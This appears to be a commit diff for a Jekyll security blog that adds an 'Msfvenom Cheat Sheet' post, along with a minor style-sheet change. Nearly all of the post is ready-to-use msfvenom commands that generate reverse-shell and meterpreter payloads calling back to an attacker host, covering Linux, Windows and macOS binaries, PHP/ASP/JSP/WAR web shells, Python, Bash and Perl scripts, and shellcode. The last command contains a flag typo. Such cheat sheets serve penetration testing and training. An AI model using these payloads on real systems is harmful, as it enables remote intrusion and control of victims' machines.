

Before and after one commit to InfosecOz/infosecoz.github.io, a Jekyll site: the page built from _posts/2017-09-03-msfvenom-payloads.md, in a window 1280 px wide. Shown: the whole page at 63% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 900 px from its top, so only the background shows below that.

Commit message:
Updated first Cheatsheet

````diff
--- a/_posts/2017-09-03-msfvenom-payloads.md
+++ b/_posts/2017-09-03-msfvenom-payloads.md
@@ -1,12 +1,84 @@
 ---
+title: Msfvenom Cheat Sheet
 layout: post
-title:  "Generating msfvenom payloads"
 categories: Security
-tags:  metasploit payloads
+tags: metasploit payloads
 author: Aiden
 ---
 
 * content
 {:toc}
 
-# Test
+### Binaries
+
+#### Linux
+```
+msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f elf > shell.elf
+```
+
+#### Windows
+```
+msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f exe > shell.exe
+```
+
+#### MacOS
+```
+msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f macho > shell.macho
+```
+
+### Web Payloads
+
+#### PHP
+```
+msfvenom -p php/meterpreter_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.php
+cat shell.php | pbcopy && echo '<?php ' | tr -d '\n' > shell.php && pbpaste >> shell.php
+```
+
+#### ASP
+```
+msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f asp > shell.asp
+```
+
+#### JSP
+```
+msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.jsp
+```
+
+#### WAR
+```
+msfvenom -p java/jsp_shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f war > shell.war
+```
+
+### Scripting Payloads
+
+#### Python
+```
+msfvenom -p cmd/unix/reverse_python LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.py
+```
+
+#### Bash
+```
+msfvenom -p cmd/unix/reverse_bash LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.sh
+```
+
+#### Perl
+```
+msfvenom -p cmd/unix/reverse_perl LHOST=<Your IP> LPORT=<Your Port> -f raw > shell.pl
+```
+
+### Shellcode
+
+#### Linux Based Shellcode
+```
+msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f <language>
+```
+
+#### Windows Based Shellcode
+```
+msfvenom -p windows/meterpreter/reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -f <language>
+```
+
+#### Mac Based Shellcode
+```
+msfvenom -p osx/x86/shell_reverse_tcp LHOST=<Your IP> LPORT=<Your Port> -fn<language>
+```
--- a/_sass/_index.scss
+++ b/_sass/_index.scss
@@ -7,6 +7,9 @@
         }
     }
     .left {
+
+        border-radius: 3px;
+
         >ul {
             padding: 0;
             >li {
````
Also changed, not shown: 10 other files.
